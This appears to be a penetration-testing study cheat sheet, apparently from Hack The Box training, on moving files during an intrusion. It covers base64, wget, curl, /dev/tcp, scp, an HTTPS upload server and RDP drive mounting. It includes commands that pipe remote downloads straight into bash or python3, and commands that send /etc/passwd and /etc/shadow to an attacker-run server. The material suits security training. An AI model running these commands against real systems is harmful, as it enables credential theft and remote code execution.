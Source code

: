 
## Base64 Encoding / Decoding

```Shell

cat <target string> | base64 -w 0;echo 

echo -n <'bash64 string'> | base64 -d > id_rsa

## Confirm the md5 hashes match

md5sum <target string>

```

## Web Downloads with Wget and cURL

```Shell

wget <url> -O <output filename>

curl -o <output filename> <url>

## Fileless Download with cURL

curl <url> | bash

## Fileless Download with wget

wget -q0- <url> | python3

```

## Download with Bash (/dev/tcp)

```Shell

## Connect to the Target Webserver

exec 3<>/dev/tcp/10.10.10.32/80

## HTTP GET Request

echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

## Print the Response

cat <&3

```

## SSH Downloads

SSH (or Secure Shell) is a protocol that allows secure access to remote computers. SSH implementation comes with an `SCP` utility for remote file transfer that, by default, uses the SSH protocol.

`SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

`SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

```Shell

sudo systemctl enable ssh

sudo systemctl start ssh

## Checking for SSH Listening Port
netstat -lnpt


scp plaintext@192.168.49.128:/root/myroot.txt . 

```

## Web Upload

```Shell

sudo python3 -m pip install --user uploadserver

## Create a Self-Signed Certificate

openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

## Start Web Server

mkdir https && cd https

sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure

## Creating a Web Server with Python3

python3 -m http.server

## Creating a Web Server with PHP

php -S 0.0.0.0:8000

```

## SCP Upload

```Shell

scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/

```



## RDP

#### Mounting a Linux Folder Using rdesktop


```shell

vincentcheung@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'

```

#### Mounting a Linux Folder Using xfreerdp


```shell

vincentcheung@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer

```


